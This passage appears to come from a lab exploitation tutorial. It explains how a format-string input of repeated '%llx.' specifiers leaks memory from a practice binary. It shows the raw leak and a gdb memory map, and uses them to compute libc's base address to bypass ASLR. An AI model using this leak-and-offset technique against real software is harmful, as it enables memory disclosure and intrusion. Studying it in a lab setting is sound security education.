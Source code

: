     sys.exit(0)

{% endhighlight %}

The exploit itself should be quite self explanatory, but let's quickly walk through it together.  
So first of all when launching the binary we wait for it to prompt us for the first input.  
When this happens we provide a bunch of format specifiers `%llx.` to get a leak from memory.  

> Recall: %llx. format string is a long long-sized integer

The leak will look something like this: 

	1.7f6c3501b790.a.0.7f6c35219700.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.7ffd002e786c.7f6c35019b78.7f6c3501b780.7f6c35244ca0.7f6c3501b780.1.ff000000000000.7f6c3501a620.0.7f6c3501a620.7f6c3501a6a4.7f6c3501a6a3.7ffdc2a905a0.7f6c34cd09e6.7f6c3501a620.0.0.7f6c34ccd439.7f6c3501a620.7f6c34cc4d94.0.5b9cf8225c7bc900.


It turned out that the 2nd leaked value is a random address within libc.  
Since we got that one we were able to calculate the base address of libc by looking up the libc mapping of the current process from within gdb.

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/lab/Git/RE_binaries/ASLR/binaries/vuln_x64
0x00600000         0x00601000         r--p	/home/lab/Git/RE_binaries/ASLR/binaries/vuln_x64
0x00601000         0x00602000         rw-p	/home/lab/Git/RE_binaries/ASLR/binaries/vuln_x64
0x01d12000         0x01d33000         rw-p	[heap]
0x00007f6c34c55000 0x00007f6c34e15000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c34e15000 0x00007f6c35015000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c35015000 0x00007f6c35019000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c35019000 0x00007f6c3501b000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c3501b000 0x00007f6c3501f000 rw-p	mapped
0x00007f6c3501f000 0x00007f6c35045000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6c35218000 0x00007f6c3521b000 rw-p	mapped
0x00007f6c35244000 0x00007f6c35245000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6c35245000 0x00007f6c35246000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6c35246000 0x00007f6c35247000 rw-p	mapped
0x00007ffdc2a72000 0x00007ffdc2a93000 rw-p	[stack]
0x00007ffdc2a98000 0x00007ffdc2a9b000 r--p	[vvar]
0x00007ffdc2a9b000 0x00007ffdc2a9d000 r-xp	[vdso]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$ 
```

We can see that the randomized base address for the used libc starts at `0x7f6c34c55000`.  
If we substract this value from the random libc leak we get the offset.  
This value marks the offset of the random libc address from the base address of libc.  
We can use exactly this offset value for any future execution to find our libc base address.  
This works, since we may have a fully randomized process memory and with that a randomized libc position in memory, but the offset of things within libraries is not changed and always has the same distance from the base address!
Hence calculating the randomized base address of libc with a static offset value is working 100% of the time.  
All of this base calculation happens in `get_libc_base_address(leak_dump)`.  
